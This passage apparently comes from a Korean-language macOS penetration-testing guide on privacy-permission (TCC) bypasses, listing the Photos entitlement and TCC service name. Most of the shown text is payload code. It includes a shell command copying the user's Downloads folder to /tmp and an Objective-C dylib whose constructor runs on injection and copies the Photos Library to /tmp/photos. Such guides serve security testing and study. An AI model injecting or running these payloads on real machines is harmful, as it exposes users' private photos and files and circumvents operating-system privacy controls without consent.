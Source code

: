 ```objectivec
```
{% endtab %}

{% tab title="Shell" %}
`$HOME/Dowloads`를 `/tmp/downloads`로 복사합니다.
```bash
cp -r "$HOME/Downloads" "/tmp/downloads"
```
{% endtab %}
{% endtabs %}

### 사진 라이브러리

* **권한**: `com.apple.security.personal-information.photos-library`
* **TCC**: `kTCCServicePhotos`

{% tabs %}
{% tab title="ObjetiveC" %}
`$HOME/Pictures/Photos Library.photoslibrary`를 `/tmp/photos`로 복사합니다.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Pictures/Photos Library.photoslibrary"];
NSString *tmpPhotosPath = @"/tmp/photos";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}
